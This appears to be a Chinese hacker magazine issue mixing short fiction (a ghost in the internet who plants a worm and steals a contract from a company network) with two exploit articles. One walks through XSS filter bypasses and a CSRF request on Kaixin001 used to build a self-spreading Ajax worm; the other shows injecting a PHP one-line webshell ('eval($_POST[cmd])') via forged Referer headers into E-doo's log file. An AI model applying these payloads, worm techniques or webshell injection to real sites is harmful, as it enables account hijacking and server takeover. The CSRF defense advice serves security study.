“那我还是从硬件开始讲吧。”何瑞叹了口气跑到储物室，拖了台台式电脑上来，鼓捣了一阵，把它全部拆开了。苏景坐在何瑞的床上晃着两条腿没心没肺地看着何瑞傻笑。

“计算机系统由硬件和软件两部分组成，硬件就是计算机系统中所有实际的物理装置。”何瑞抬头看见苏景迷茫的眼神，无奈地拿起鼠标和键盘，“喏，就是这些看得见摸得着的东西。”

“哦……”苏景恍然大悟般地点了点头，“可是我不想学这些……”

“……”何瑞揉着乱跳的青筋，努力克制住自己。“那你想学什么？”

“啊啊！”苏景突然激动地跳下来，“就是……怎么说……就是那个……黑客啊什么的……反正就是学怎么样能像哥，呃不，是 Drew 那样可以进入警察局的数据库，然后找到自己想要的……”苏景说得越来越激动，两条雪白的胳膊摇得风生水起的。

何瑞听不下去了，揉着乱跳的青筋一字一顿地告诉她：你、做、梦。

苏景“哇”地一声扑到了何瑞身上，一边叫着“我不管！你教我！”之类的激烈言辞，一边死死地抱住他一阵乱扯。

月光皎洁，一群可爱的乌鸦“嘎嘎”地叫着飞过月梢，留下一行长长的省略号。凉爽的夜风轻轻地吹过树梢，激起一阵悉悉窣窣的声响。苏景在何家的日子就像平静的湖面，偶尔扔过一块瓦片，飞过水面，激起几个小小的涟漪，然后，一切又重归平静。

“计算机系统受到攻击通常有两种原因：要么它是攻击者的特定目标，要么它是一个机会目标。在第一种情况下，攻击者选择目标不是因为机构运行的软件或硬件，而是因为其他的原因。但不管什么原因，这类攻击是在知道机构的硬件和软件前就决定的，你想学的应该是这类攻击。

攻击者试图穿透目标网络所采取的步骤，和安全顾问进行安全穿透测试所采取的步骤是相类似的。攻击者需要收集有关机构尽可能多的信息，包括：IP 地址、电话号码、人员姓名等等。通常，第一步是确定哪个目标系统是可用的和活动的，这通常是可以通过 Ping 扫描来完成的，只需发送一个 Ping 请求到目标主机即可。

下一步通常是执行端口扫描，这将会帮你找到哪个端口是开放的，从而判断目标机器上什么服务在运行……”

习惯真是个可怕的东西，为什么以前都不知道这些东西的神奇，也从来不曾感受到“安静”这个词的意义。但是，如果要重新拾得海边的贝壳，是不是要让海浪再来一次……

“谁？！姐姐？”黑暗中，少女一步步退后，阴冷而贫瘠的眼睛注视着少女，发出血光。夜，就是这样黑。

“再近一点，再近一点……哈哈……”

（未完待续）

# 编辑点评

OK！OK！无论你是爱她还是憎恨她，Nobody，这个校园写手又再一次把她的《夜袭神来临》系列之五给大家送上来了。这一集小姑娘开始学黑客了，顺便也透露一点下一集的内容……有人要抓罪犯了。

图/风逝·水

我总是游走在网络，因为人类发明的这个互联网，连接了世界各地的计算机，而计算机的增多，也给我活动的空间，又多划出了更大一片天地。

我们知道，只要是存在的物体，都会或多或少地向外界发射电磁波，就像人所谓的心灵感应，神秘的第六感一样。而电磁波的强弱，接收电磁波的人能力大小，就是接收的关键。人类向外发射电磁波的方式，就是脑电波，脑电波在日常生活中是比较常见的。比如有人会有危机感，对某事有预感，这种现象就是两者脑电波互相干涉的结果。事实上，有很多人都认为人在死后，脑电波是不会立刻消失的，尤其是生前意志力顽强的人，那些存在于空气中的脑电波，被其他人的大脑接收到后，刺激大脑组织，会在视觉神经和听觉神经上形成一个虚拟图像，这时候，也就是人们俗称的——见鬼。

我本来是早已不存在于这个世界的生命了，严格来说，我已经不是生命体，我只是死时残留的一段脑电波，也就是鬼。一个偶然的机会，我发现互联网之间的数据传输，会给我增加一定的能量，于是我就寄生于互联网这个高速运行的媒介之中。

一场车祸夺走了我年轻的生命，因为是枉死，我的意志特别强烈，而那次的发现，让我寄生在互联网中，游走于不同的计算机之间，过着另一种生活。

在游历了大半个网络之后，我的生活开始面临乏味，但此时却让我意外地碰到了一件事，也让我这个鬼，发生了一段难忘的经历。

# 黑小说

那一天，我正在网络中闲逛，考虑去哪里寻点乐子，突然感受到一个 IP 地址上的能量特别强烈。我好奇地游过去，轻松以数据包的形式穿过了防火墙，到了那台主机中。

电脑屏幕上显示了一个即时聊天工具的对话框，貌似聊天才刚开始，一个网名“乐儿”的人和一个网名为“飞鸟”的人正在交谈。从字里行间中不难发现他们的关系——一对情侣。关系很好，应该算是热恋之中吧。乐儿是个活泼的女生，很多话，几乎没有停顿地打字。而飞鸟就显得有点慢，回话的速度不算很快。就是这速度不快的回答，乐儿总会飞快地阅读后，又在键盘上噼里啪啦。

我没有偷窥这对情侣聊天的闲情，虽然他们完全不知道还有第三者参与了他们的谈话。感觉中，乐儿是个乖巧的女生，或许更应该还带有一分可爱。在主机的硬盘上散步，发现了不少照片。照片上都是同一个女生，长相甜美，很是可爱。看来我猜得不错，暗自得意了一下。还有几张一个男生的照片，就算是变成了鬼，我也对男生没什么兴趣，看完了乐儿的照片就跑去硬盘其他地方“旅游”了。

整个硬盘内，除了电影就是音乐。说实话，整天在网上游荡，不管什么电影和音乐，我几乎都如数家珍，毕竟为了打发整天的空闲，我是找不出更好的办法了。这些一点都不让我感冒；我打算离开这里。突然，感受到一种悲伤，很细腻，很沉重，下意识地开启了电脑的摄像头。

通过摄像头，我看到照片上的女孩子，正一脸惊讶地对着电脑，身体轻微地颤抖。回到桌面上的对话框，看到了这样一行字。

“我们分手吧，不要给我打电话，不要给我发短信，但是我们还可以在网上聊天，这样大家都不会痛苦。”

这段话是飞鸟发出的，没有仔细琢磨，也没有看后来的解释和质问。我检测了数据流，发现大量的数据流向了同一个 IP 地址，剩下的就是我顺着“河流”流进了飞鸟的电脑。

这台电脑上，显示着同样的聊天工具，同样的对话框，同样的对话。只是窗口的旁边多出了另一个窗口，本来应该出现在这个窗口的甜言蜜语，却偷偷渡到了那里。这个负心的男人，提出分手的理由，已经很是明显了。

唉，这个世界上的男女，难道就不能珍惜自己眼前的幸福吗？

我现在比较担心乐儿的情绪，没有过多地停留，就离开了这台让我厌恶的计算机。但是在我临走前，送了他一个“小礼物”，一个小小的蠕虫病毒，也许，这个病毒只有在他更换硬盘后，才能离开他。

回到乐儿的世界里，透过摄像头，两行晶莹的泪在她脸上滑过。对话框中那句话下面多出了一个“好”字。很难理解她没有追问飞鸟分手的理由，这个沉重的“好”字，压得她埋头痛哭起来。

不知道那个男人有什么好，居然能让她爱得毫无保留，就连追问原因的勇气都没有，很爱很爱，到底是对的还是错的？我对那个飞鸟的厌恶更是增加了一分，对乐儿也产生了想去照顾她的感情。

看到她哭得那么伤心，我却无能为力，毕竟我只是一个鬼，本来就不属于这个世界，至今还残存着的原因是因为强大的互联网，我没办法现身，只能干着急。哭了很久以后，声音渐渐减小，到后来只剩下抽泣，可能是累了，最后她趴在电脑桌上睡着了。看着她睡帽上珍珠般的泪，我休眠了系统，只剩下摄像头供应电力，自己也停留在她的电脑里面。

第二天的早晨，乐儿醒过来，打开了电脑，对着屏幕发着呆。就这么无神地看着，屏幕上飞鸟的头像一直都是灰色。

“唉，这个傻丫头。”我知道她在期望，期望那个负心汉会跟她联系，哪怕只是一个表情，一个符号。但是，这些都只是她的奢望。

没办法了，我只能好人做到底了。小小的能量激活了灰色的头像，一个跳跃的“飞鸟”，冲散了乐儿脸上的悲伤。

“早上了，新的一天，要有新的状态，不能悲伤，知道吗！”

“嗯，我知道了，我们还是朋友吗？”

“当然，我会在网上等你，只要你想我，我就一定在线。”

“真的？不许骗我！”

“嗯，一定。”我真的不想说这些假话，但是有时候善意的谎言也许应该去代替她心中的阴霾。

摄像头里，乐儿嘴角有那么一丝丝地上扬，然后离开了电脑，我也有了那么一点小小的欣慰。

后来的一段时间里，乐儿主动找“飞鸟”的次数慢慢开始减少，我假扮飞鸟的次数也在走下坡。看到乐儿一天一天从悲伤中走出来，我发自内心地为她高兴。

这天，摄像头里的乐儿一身正装，打开了电脑，给“飞鸟”说：

“今天我要去面试，我应该化淡妆还是化得艳丽点？”

我们仔细观察了一下乐儿，一个可爱的女孩子，给人很清馨的感觉，如果妆太浓，反而会掩盖她本身的美丽。于是我回答道：“你是一个美丽的女孩，不要让那些化学物品过多地浸染了你。”

乐儿微笑后，离开了。

自从飞鸟提出分手后，乐儿就开始在电脑上写日记，而我每天也会去浏览下，观察她的心理历程。从日记中我知道了他们是在网络中认识的，因为按缘而到最后的相恋，看似那么顺理成章，其实我感觉是飞鸟刻意地去制造那种默契，一个这么有心机的男生，乐儿那么单纯，怎么逃得出他的手心。

后来因为飞鸟的厌倦，这段感情也结束了，留给乐儿的悲伤，在我努力的“客串”中，一点点地化解，调节她的心情。失恋的开始，她的文字是那么孤独、悲伤。但是活泼的女孩，总能面对阳光，一段时间后，她开始转移自己的情绪，用每天一点点的小快乐，去化解心中覆盖的阴云。慢慢地，她接触到了很多新朋友，学会了以前不会的事情，她的能力一点一点地提高，生命也闪烁出新的光芒。

开始的那段日子，她会有很多的事都问我，而我也会尽力去回答。虽然我也有很多不知道，但是混迹于网络这么久，百度和 Google 两位“大哥”作我的靠山，又有什么问题能够难倒我呢？最好的答案，给她带来最好的结果。

日子慢慢地走，看看乐儿的生活回到了正轨，日记里面开心的事也一天比一天多，我为她高兴的同时，也萌生了离开的念头，毕竟互联网的世界才是属于我的。

那天，乐儿给我出了一个难题。

“我把公司的合同文件弄丢了，怎么办啊？”乐儿一脸着急地问我。

“很重要的合同吗？如果再去找对方重签，可以吗？”

“不知道，但是肯定会被领导骂，这是我第一次代表公司签这么大的一份合同，我真笨，怎么会把合同弄丢了呢。”

看到乐儿急得快哭了，我冒出了去对方公司偷合同的想法。

“你先别急，你跟我说过在一家软件公司上班，那合作方是哪家公司？”其实我是在乐儿的日记里面看到她上班的消息。

“嗯，合作方是 XX 公司。”乐儿报出一个国外很知名的软件公司的名字，怪不得会这么着急，如果和这家公司合作成功的话，估计报酬会非常丰厚。如果合作被她弄砸了，估计工作都要丢。

“我帮你想想办法吧。”

我，一个鬼，能想到的办法就是去偷合同。幸好我是在互联网上，要是住在现实中，我不是要漂洋过海了？哈哈，小小庆幸下，我就开始着手做一名黑客了。

想法很好，但实践时才发现那些都只是想法。这家公司能做到这么大，保密措施必定很好，硬件防火墙严格过滤所有的数据，我差点就被查出来非法入侵，还好是借多年来混迹于网络、进出各式各样的防火墙的经验，对付过去了，也算有惊无险。

很快就在他们公司内网中的一台计算机上，找到了乐儿公司合同的电子档。把它们“装进”我的口袋，就打算离开。这时候，警报响起来了。实时监控软件发现有非法上传操作，疯狂报警，杀毒软件、机房工作人员也开始对我发起了进攻。

对付杀毒软件和机房人员我倒没有担心，就怕断网，如果断网了，我的文件就送不回去，而乐儿的工作也就完了。情急之下，我顺手找了一个文件，以反汇编的形式打开了它，将文件的结构做了一些小小的改动，将平常出现在病毒文件身上的特征码，全加在了那个文件上。与此同时，我也拼命向防火墙外面冲锋。

也许是上天都在帮乐儿，那个被我修改过的可怜文件，成功吸引了对方的注意，壮烈牺牲了，我也胆战心惊地离开了这个危险的地方。为了防止对方追踪数据流向，我弯了一步，去了飞鸟的电脑一趟，留下了点小痕迹，给对方追踪提供点小线索。

“接收，你看看是不是这个文件。”

看到乐儿脸上先是惊讶，后来露出了笑容，我松了一口气。

“对了，就是这个，你怎么弄到的？”

“是这个就好，快去交吧。”

“嗯，我这就去。”

乐儿快乐地走了，我也找了个安静的地方休息。刚才的经历实在太伤神了，我需要更多地补充自身的能量。

后来乐儿告诉我，合同圆满完成，提议想找时间约我出来吃饭，以感谢我。

我不禁苦笑，我是个鬼，要如何去面对她？看来，差不多是我离开的时候了。

这天，我在认识乐儿后，第一次主动发信息给她。

> “此号已盗，如对你产生不便，请不要原谅！”

留下这句话后，我转身离开了充满我回忆的电脑。

有一天，乐儿在自己的邮箱里发现了一封未读邮件，信上这么说的：

“我的账号被偷了，所以这段时间没办法联系你。这是我申请的邮箱，以后有事发邮件给我吧。还是那句话，只要你想我，我就会在线上。现在我不叫飞鸟了，我叫游魂。”

电脑屏幕前，一个可爱的女孩甜甜地笑了。

“呵呵，还是放不下你个小丫头！”

# 编辑点评

很多年轻人喜欢科幻小说，而温情系列的科幻小说又是最引人入胜的一种。这个有点“装鬼扮酷”感觉的男主角，让小说充满了中世纪的骑士精神色彩。

# 爱，没有尽头

图 李德芳


这是一个夏天的夜晚，天气十分闷热，我正激情喷涌，把键盘敲得飞快之时，忽然听到了清脆的门铃声。都11点了，是谁在我所居住的单元大门前按门铃啊？我不情愿地离开电脑，走到门旁，拿起话筒问道：“你是谁呀？”只听话筒里传来一个女人的声音：“时光啊，都11点了，该睡觉了！”

一听这声音，我吓了一跳，这好像是花灿的声音啊？可是，花灿已经死了呀？难道是她的魂灵在喊我，叮嘱我按时休息吗？

我的心怦怦直跳，无法再写下去了，干脆就关了电灯睡觉！我冷不丁看到，花灿走到电脑前，向我莞尔一笑，伸出手来，把我正敲在键盘上的左手握住了，说道：“老公，到点了，该睡觉了！”我说，可有个把钟头这一章就写完了！可是，她硬是攥着我的手不放，说道：“咱不是说好了，每晚就到11点就睡觉吗？你老是这样熬下去，身体哪里受得了呀！”我说，写完了这一章一定休息！

说着，就要把自己的手从她紧握着我手的那只左手里抽回来，然而，怎么也抽不回来！我一使劲，胳膊被拽得生疼，疼得我呼啦一下睁开了眼睛，原来我是在梦中，我的左手被压在了枕头底下。花灿已经死了一个多月了，但是，她的身影每天都在我眼前晃悠。

说起来，花灿够不幸的了，她父亲有肾病，母亲是个聋哑老太太，而且还有一双老寒腿，拄着拐杖才能行走。花灿呢，有着严重的心脏病。我原来在一个企业打工，把积攒了多年的5000元钱交给了岳母，让她去治疗一下那双老寒腿，她高兴地把钱接了。

谁知，在一个中午，她却拄着双拐，气喘吁吁地爬上三楼来，打着手势，哇啦哇啦地对我说了些什么，我一点也没听懂。花灿给我解释说：“俺娘是对你说，写文章的人现在都用电脑，你还在用钢笔写，她就用你给她的那治疗老寒腿的5000元钱给你买了一台电脑，让你下楼去搬上来呢！”

我听了非常感动而又羞愧，就惶惶地下了楼，从一辆出租车上把一台崭新的电脑搬到了我的书房。这是岳母头一次艰难地爬上二楼，也是最后一次到我屋里。后来，她那老寒腿越来越严重了，哪里还上得了楼？在花灿活着的时候，我为写一部长篇小说，熬一笔稿费买药为花灿全家人治病，时常通宵达旦。几天下来，我身体消瘦了，脸色也憔悴了，花灿担心我会累垮身体，只准我每晚只写作到11点。11点休息，便成了雷打不动的习惯！

在我们结婚一年后，她向我提出想要个孩子，我却对她说，等着我完成了第一部长篇小说，得了稿费，把她的心脏病治好了，再说吧。她同意了。然而，就在我完成了第一部长篇小说的初稿时，她因心脏病发作而猝死了！

然而，在最近几天的11点左右，我总是听到门铃声，便习惯性地拿起话筒问一声：“谁呀？”话筒里就传来了一个女人的声音：“时光，该睡觉了！”怎么听也像是花灿的声音！

我本来想着下楼看一下，是谁这几天晚上11点前，硬是摁我房间的门铃。但是，我只穿了一个大裤衩儿，懒得再穿上衣服下楼，心想，管她呢，怎么可能是花灿在摁我房间的门铃呢？又怎么能是她在告诉我该休息了呢？或许是我的幻觉吧！

那门铃声只响了七、八个晚上，在以后的好多天，我并没有在11点休息，但是那门铃声却再也没有响起。我明白了，那还真是我的幻觉在作怪呢！

我很快把长篇小说《燃烧不尽的爱》完成了。这天，我便揣着打印好的一部书稿，来到了花灿的坟墓前。

“灿，我这部长篇终于完成了，它浸透了你的血汗啊！你就作为第一个读者，先睹为快吧！”我喃喃地说着，掀开打火机，把书稿点燃了。

当书稿即将被燃烧完了的时候，突然刮来了一阵旋风，把其中没有燃烧的一页稿纸吹飞了，它在空中打了一个旋儿，又静静地落在了花灿的坟墓上。我拿起那页稿纸一看，一行醒目的黑体字赫然出现在我面前：“爱，没有尽头”！我没有再把它烧了，而是用一块小石头，把它压在了花灿的坟墓最顶端。

我刚离开了花灿的坟墓，就接到了岳父的电话，他悲戚地告诉我，我那可怜的岳母病逝了！我慌忙忙地赶到了岳父家里，岳父把我拉到岳母的灵堂前，说是让我代花灿见母亲最后一面。

当岳父掀开岳母身上盖着的一片白布，我看到岳母的面容时一下子惊呆了，岳母的模样几乎跟花灿一模一样，她原来那黑白掺杂的头发完全变成黑色的了，好像焗了油似的黑亮。

我惊讶地问岳父，是不是岳母死后被整容了呀？岳父却摇摇头说，她在临死之前的一个多月前，就得了病症，还把自己打扮成花灿的样子，穿上花灿的衣服，在半夜三更时拄着双拐走到我居住的单元大门前，摇我房间的门铃儿，告诉我按时休息呢！

我大吃一惊，岳母的家离我的住处虽然只有半里路，但是她一个拄着双拐的老人，要走多长时间才能到啊！我忽然想起来：岳母是个聋哑人，她怎么能对我说话呢？我疑惑地问岳父：“可是，我岳母是个聋哑人，她不会说话呀？我怎么听到她每次揿门铃时，还告诉我到了11点了，该睡觉了呢？”

岳父哭丧着脸对我说：“那不是她对你说的话呀！”

“不是她？那是谁呀？”我一头雾水了。

岳父悲痛地喊道：“那是花灿告诉你的啊！”

“花灿告诉我的？”我被震惊了，“我听那声音，的确是花灿的声音啊！可是，她已经去世一年多了，她怎么可能还能对我说话呢？”

岳父颤抖着手，从他衣服口袋里掏出了一部手机递给了我，说道：“这是花灿在临终前交给她妈妈的手机，花灿想对你说的话在这里面呢！”

我恍然明白了，原来是花灿在临终前，担心她死后再没有人督促我在11点休息，就把那督促我按时休息的事情托付给我岳母了。但是，我岳母是个聋哑人，不会说话，花灿就把她叮嘱我按时休息的话录在手机里，让我岳母在摇我房间门铃的时候，把她录在手机里的话放给我听！顿时，一股滚烫的热潮在我心里澎湃起来！

这时，岳父长长地叹了一口气说：“后来，你岳母病重了，躺在床上动弹不得，就没有再出去过。当然，她也不能再去摇你家里的门铃了！”说完这话，他又指了指我手中的手机，嘴唇哆嗦着说：“花灿的妈妈在临终前，让我把这手机转交给你。他说是手机里面还有花灿唱给你的歌儿呢！”

从此以后，那门铃声再也没有响过。

这天晚上11点多，屋里的电灯突然灭了，一片漆黑。我向窗外一看，很多居民家里的电灯都亮着，唯独我家停电了。我准备拿花灿的手机给供电公司打电话，要询问一下停电的事情，可能是摁错了键吧，手机的屏幕上突然出现了花灿的头像，她微笑地看着我，好像在对我说：“时光，都11点多了，该睡觉了！”接着，突然响起了手机的彩铃声，花灿那深情的歌声震撼着我的心弦：“老公老公我爱你，一定保重你身体，每晚11点要休息，俺在那边看着你，看着你，想着你！”

我把花灿这手机的彩铃输入到我的博客里，给这首歌曲起了一个题目：《爱，没有尽头》。

> 编辑点评：
> 很是温情脉脉的一篇小说，小编我突然怀念起以前上学时买的《微型小说选刊》，期待有更多这样充满人性温暖而又引人入胜的文章。

# 发掘开心网 XSRF 漏洞
## 发现简易 Ajax 蠕虫

✉ Zetifree／易逝『泊


> 栖着芝小天鹅绒，今年北京的冬天来得特别地早，提前1个多月就大雪纷飞，实在是冷得不行，待在屋子里还行，但是一到室外，寒风那个呼呼地吹，真的疯了样。伴随10月初离开北京一段时间，11月初再次回到北京的时候，温度差异非常地大，实在是冷得可以！特别是对小编这种在中国南方水源待惯了的人来说，简直就是噩梦。平时不敢外出，只好躲在家里看代码，研究技术，感觉还是不错的。

- 从本文可以学到：
- 开心网 wap 站 XSS 漏洞分析利用
- 开心网 XSRF 漏洞利用思路

第一次写原创，首先要感谢朋友梦殇凡尘发现了开心网 wap 的 XSS，得以让我更多地研究继续。而后 80sec 披露了 CSRF，我的蠕虫还没来得及测试，所以最后的具体实现可能会出现纰漏，只希望能起到一个抛砖引玉的作用。

XSRF 这个名词大家可能听到得并不多，很多地方只是称它为 CSRF 的别名，刺大牛更愿意解释为：“混合了跨站的在我这里叫 XSRF”，即 XSS+CSRF 的攻击方式，我也用了这个有点帅帅的名字。

## 0x01 漏洞发掘

### 1、开心网 wap 的 XSS

八月底，朋友梦殇凡尘/jinxgo 关注到 Wap 方面的安全问题，最初无意的测试引发了后面的一切。测试发现了开心网 wap 的三个 XSS——分别位于：短信息、文章和记账评论，今天只是说说第一个，也是相对严重的一个。

开心网在 wap 端的 XSS 防御做得非常薄弱，我们开始按照发掘 XSS 的典型流程进行操作：

首先访问 wap.kaixin001.com，登录并进入文章编辑页面，测试如下语句：

```text
第一句：<script>alert('XSS');</script>
```

发现 `<script>` 被替换成 `< script >`（注意其中的空格），`</script>` 彻底被过滤，并在输出时进行了 `encode`。（ps：这些过滤的情况与一个月前略有不同）

第二句：``

`javascript` 被替换为 `java`，`script` 被过滤。

第三句：我们知道，在 JS 事件中没有 `javascript:` 也可以执行后面的 JS 代码，而且并不像 `expression`、`STYLE='background-image` 和其他 JS 伪协议是 IE only 的。既然 `javascript:` 行不通，那么就把它去掉，语句为：``，注意：`onload` 事件必须要 `src` 属性，这里用了开心网的 logo。看！窗口弹出来了，如图 1。


XSS 攻击的核心就是利用一切方式绕过过滤器。Html 的不苛刻性、编码、JS、CSS、伪协议、DOM 等等都是可以利用的，同样的代码我们可以从最基本的语句入手，逐渐摸清过滤器的规则、原理，“从外向内探”，最后找出适用范围最广的方法。

至此，对开心网 wap 端日志功能的 XSS 测试完毕，我们可以用 `` 执行任意 JS，每个通过网页浏览器打开开心网访问该日志的用户都会触发这个 XSS 语句。

总的来说，wap 的形势很不容易乐观，最该过滤的符号没有过滤。另外，开心网的黑名单过滤非常脆弱，同时在输出时，php 程序员也没有有效地 `encode`。程序员如果有“一切输入输出都是有害的”安全意识，那么跨站监听将举步维艰。开心网的 wap 程序员说：“让 php 程序员处理好输出好了”，而 php 程序员又说：“wap 的输入应该是安全的，我不用过多地干涉输出了”，双方心照不宣。跨站监听出现在了开心网的一次经验，我倒觉得 wap 安全应该被广泛重视起来——这绝不仅仅是开心网！

### 2、开心网 www 的 CSRF

- 1. 发掘 CSRF

XSS 被发现后，我注意到开心网的转帖组件是强制性、主动性的，发文章者可以主动转帖给好友，而好友则一定会在转帖组件中找到。大家联想到了什么？XSS 蠕虫！这给了蠕虫传播的一个绝佳条件。

思考一下：如何把转帖自动进行？我们可能需要一个 CSRF。比较好的情况就是构造一个链接，在链接中包含文章 id、好友 id 等信息，利用 Ajax “秘密”地 Get 上去……

我们首先看看开心网是如何完成一次转帖的，大致流程是这样：文章页面点击“转帖”按钮，选择好友，确认转帖。

首先打开我们的 Firefox，并利用 Firebug 查看一切网络数据包（Firebug 是大家一定要学会用的一个 FF 插件）。我们进行一次转帖，然后查看 Firebug，由于该漏洞已经修补，当时没有截图，只能用语言描述了。

我注意到一个 Get 请求 `http://www.kaixin001.com/!repaste/!repaste_tofriend_dialog.php?comment2src=1&commenttyp=1&do=succ&group=&rtype=diary_52488317_21034403&touids=好友的开心Id&uid=我的开心Id&word=`，于是复制这个链接，拖到浏览器里，出现了转帖成功的页面，如图 2。

这是一个典型的站内 CSRF，我们可以通过伪造一个 Get 请求进行转帖，这样只需要取得好友们的 Ids 就可以了（文章转帖是我空间中的唯一一篇，不像博客，所以只有一个日志 Id，不变）。


- 2. 披露与修补

一周前 80sec 大牛披露了这个 CSRF，详情常见他们的文章，我就不再引用了。现在开心网补了这个漏洞，反应非常快，在页面增加了一个 security token。流程大致是这样的：

在第二步选择好友时，服务器根据一些特定算法算出一个 Md5 Hash，并把计算出的 Hash 写入回应给客户端的 Html 的一个隐藏域中，如图 3，此时在选择好友页面中，这就是一个 Token（同时服务器记录下它）。


一个 Token 使得可预知的链接成为了不可预知的数据，由于我们无法得到或预测它，Ajax 传递数据后，服务器将阻止我的转帖请求。而一个正常的请求，客户端将在选择好友的一步中，把上面隐藏域中的值 Post 回去，如图 4，服务器验证这个 Token 是否与刚才生成的相同——以保证这不是一次 CSRF，最后转帖成功。同时，开心网改为使用 Post 形式传递转帖数据。

总结一下，防范 CSRF 攻击，程序员主要需要注意以下三点：


> a、在页面中添加 security token（安全令牌）
>
> b、区分 get、post、cookie 请求（比如在 asp 中不要使用 `request("id")`）
>
> c、进行 Referer 判断，限制提交请求的页面路径……

## 0x02 开心网 Web 应用初探

摆脱了发掘，让我们正式开始蠕虫的编写。

- 1. 转帖

刚才的 `http://www.kaixin001.com/!repaste/!repaste_tofriend_dialog.php?comment2src=1&commenttyp=1&do=succ&group=&rtype=diary_52488317_21034403&touids=好友的开心Id&uid=我的开心Id&word=` 可以实现转帖，那么唯一的难点就是取得好友和自己的 Id 了。

- 2. 获取好友

与挖掘 CSRF 时的思路相同——先利用 Firebug 来分析网络包。

我们在转帖处点击按钮获取全部好友，如图 5。

Firebug 显示我们 Post 了 `"pars=gf_me&type=all"` 这样的数据，如图 6。接着服务器回应了一个 Json 对象，如图 7，其中 Uid 为开心 Id，下标为零的子对象代表了自己，其他均为好友。（科普：Json 是一种非常适合与 JS 操作的数据交换格式）

现在我们只需通过 `XmlHttpRequest.send("pars=gf_me&type=all")`，并接受服务器返回的 Json，就可以得到 Uid 了。


## 0x03 蠕虫实现

- 1. 思路

把获取好友的参数 Post 给服务器，当 Ajax 过程完成后从 Json 中获取好友 Uid（可以作为一个函数）。在 Uids 取到后，构造链接向服务器伪造转载帖的请求。

### 2、设计中要注意的问题

- （1）全局命名空间污染

Js 在设计中有个较大的失误——采用了全局对象的编程模型。学过 C 的朋友一定知道，全局变量的使用要极其谨慎，而 Js 中所有的变量都是基于全局的，这会造成程序混乱。

比较好的解决方法是采用基于对象的编程思想，而开心网用了一个偷懒的办法：规定全局对象命名规则——增加文件名前缀，比如 `fs_getHotNum()`，为 `friend_supersuggest-1.js` 中的函数。所以我也采用一下这个方法——把我的几个函数加上一个 `w_` 前缀。

- （2）转换 Json

服务器回应的 Json 我们如何转换为 Js 对象呢？可以利用 `x=eval(responseText);//...`，x 就成为了方便使用的 Json 对象。

```javascript
var len = Math.ceil(arr.length/3)*3; // Math.ceil 求最小的整数但不小于本身
for(var i=0 ; i<len ; i++)
//...
if(arr[i])//...
//...
```

（3）从 Json 中有效获取信息

我们如何从庞大的 Json 中获得 Uid 呢（据说很多人的开心好友有上千个）？我不想亲自动手，开心网的 Js 有一段现成的代码：

思考一下 `arr.length` 的取值如何影响了 `len`。

- （4）Http header

观察发送到服务器的包，其中一些 Http header 需要我们添加：

```javascript
xmlhttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
xmlhttp.setRequestHeader("x-prototype-version","1.4.0");
xmlhttp.setRequestHeader("x-requested-with","XMLHttpRequest");
```

### 3、具体实现

由于版面有限，完整代码已经放在本期光盘中，文件名为 `happy_worm.js`。

## 0x04 后记

> “安全是一个持续的过程”，试想：如果开心网做到了如下三点中的任何一点，这次跨站还能实现吗？
>
> Wap 站过滤输入；
> WWW 开心网对所有输出 Encode，而不是选择性的；
> WWW 开心网对 Wap 站输入数据特殊照顾——划分信任关系。

Web2.0 的到来带来了以用户为主的互联网新思想，网站将控制权逐渐释放给客户，比如开心网 99% 的内容都是用户产生的。XSS/CSRF 攻击的产生和流行不是偶然，而是黑客目标由服务器控制权转向了用户的标志。

笔者接触 Web 时间不长，对安全和程序的理解也有限，文章中的纰漏在所难免，希望各路高人多多指教，欢迎与我交流！

> **编辑点评：**
> 开心网这段时间异常火爆，但不代表其安全性做得很好。文章中从 wap 端的 XSS 开始，进而找到 XSRF，最后利用如上漏洞，编写相关蠕虫，进而可以进行大量的传播。

# E-doo 音乐系统 ODAY 分析与利用

- 从本文可以学到：
- e-doo 音乐系统漏洞分析
- 漏洞的利用

大家好，今天在 Okee 的 blog 上看到 e-doo 音乐系统的 Oday，但是他的分析不全面，程序对 http_referer 值和 ip 地址都没有过滤，这些参数都是可以构造的。由于他对漏洞分析得过于简单，朋友建议我把详细的漏洞分析与利用方法给大家讲一讲，于是就有了本文。

这个漏洞主要是程序没有对 http_referer 值和 ip 地址值进行过滤，直接把获取到的变量值写入了日志文件。日志文件又是 php 后缀名，因此我们可以把 http_referer 值和 ip 地址伪造成一句话木马，然后写入日志文件，轻松获得 webshell。下面，跟我一起来看看详细的 ODAY 分析与利用过程吧。

## 一、ODAY 分析

E-doo 音乐系统承继以前火柴天堂音乐系统，程序内核稍微做过开发，系统由 PHP+TXT 构架，适合独立构建中小型的音乐网站。漏洞主要出现在 index.php 文件，关键代码 `$ip=get_ip()`，意思是直接获取 ip 地址赋给 ip 变量，我们来看看获取过程。

`get_ip()` 这个函数在 index.php 包含的功能文件 fun.php 中，直接通过 `$_SERVER['HTTP_X_FORWARDED_FOR']` 获取，没有对 ip 地址进行任何过滤。`$from=$_SERVER['HTTP_REFERER']` 获取 http_referer 值给 from 变量，也没有进行任何过滤。对于获取的值，都是直接写入日志文件，如图 1。

从图 1 中我们可以看到，先获 ip 地址值给 ip 变量，再获取 http_referer 值给 from 变量，然后对 ip 地址和访问时间等相关参数进行判断，如果符合要求，就利用 `fwrite()` 函数把 ip 地址、时间、本地机地址、http_referer 值一起写入日志文件。

`writeto()` 函数在功能文件 fun.php 里，它直接获取变量值进行写入，也没有任何过滤。

`$sys_data_dir` 变量在 config.php 文件里，关键代码 `$sys_data_dir="data"; //系统的数据目录`，因此日志文件在这个文件夹的 stat 目录里。

要写入日志文件，必须符合程序的一些判断。我们怎么样才

## 二、0DAY 利用


先在本机搭好测试环境，访问网站首页，提示网站安装成功。接下来我们构造一个 http_referer 值，内容为一句话木马“`<?php eval($_POST[cmd]);?>`”，IP 地址的值先默认。为了方便我们提交构造的数据，这里我用到了寂寞刺猬写的 post 提交工具，并输入相应的数据，如图 2。

从图 2 中我们可以看到 referer 值写的是一句话木马，点击“测试”提交我们构造的数据，从返回信息中可以看出，数据肯定提交成功了。

现在我们去日志文件中看看效果吧，打开 data 文件夹下 stat 目录里的 2009-11-13.php 日志文件，发现内容里一句话木马没有写进去，如图 3。


